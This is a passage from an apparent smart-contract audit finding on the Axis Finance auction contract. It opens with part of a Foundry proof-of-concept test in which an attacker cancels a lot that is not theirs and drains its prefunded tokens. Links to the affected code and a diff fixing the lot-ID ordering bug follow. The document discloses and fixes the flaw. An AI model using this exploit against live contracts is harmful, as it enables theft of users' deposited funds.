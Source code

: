 ```solidity
    vm.startPrank(ATTACKER);

    routingParams.prefunded = false;
    auctionHouse.auction(routingParams, auctionParams, "");
	
	// ATTACKER is now the seller of the lot at lotRouting[0]; the lot's funding remains the same
    auctionHouse.cancel(0, "");

    assertEq(baseToken.balanceOf(ATTACKER), PREFUNDED_AMOUNT);
    assertEq(baseToken.balanceOf(USER), 0);
  }
}

contract MockERC20 is ERC20 {
    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol, _decimals) {}

    function mint(uint256 amount) public {
      _mint(msg.sender, amount);
    }
}
```
### Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L160-L164\
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L174\
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L194\
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L211-L212\
### Tool used
Manual Review
Foundry Forge

### Recommendation
```diff
diff --git a/moonraker/src/bases/Auctioneer.sol b/moonraker/src/bases/Auctioneer.sol
index a77585b..48c39d5 100644
--- a/moonraker/src/bases/Auctioneer.sol
+++ b/moonraker/src/bases/Auctioneer.sol
@@ -171,6 +171,9 @@ abstract contract Auctioneer is WithModules, ReentrancyGuard {
             revert InvalidParams();
         }
 
+        // Increment lot count and get ID
+        lotId = lotCounter++;
+
         Routing storage routing = lotRouting[lotId];
 
         bool requiresPrefunding;
@@ -190,9 +193,6 @@ abstract contract Auctioneer is WithModules, ReentrancyGuard {
                     || baseTokenDecimals > 18 || quoteTokenDecimals < 6 || quoteTokenDecimals > 18
             ) revert InvalidParams();
 
-            // Increment lot count and get ID
-            lotId = lotCounter++;
-
```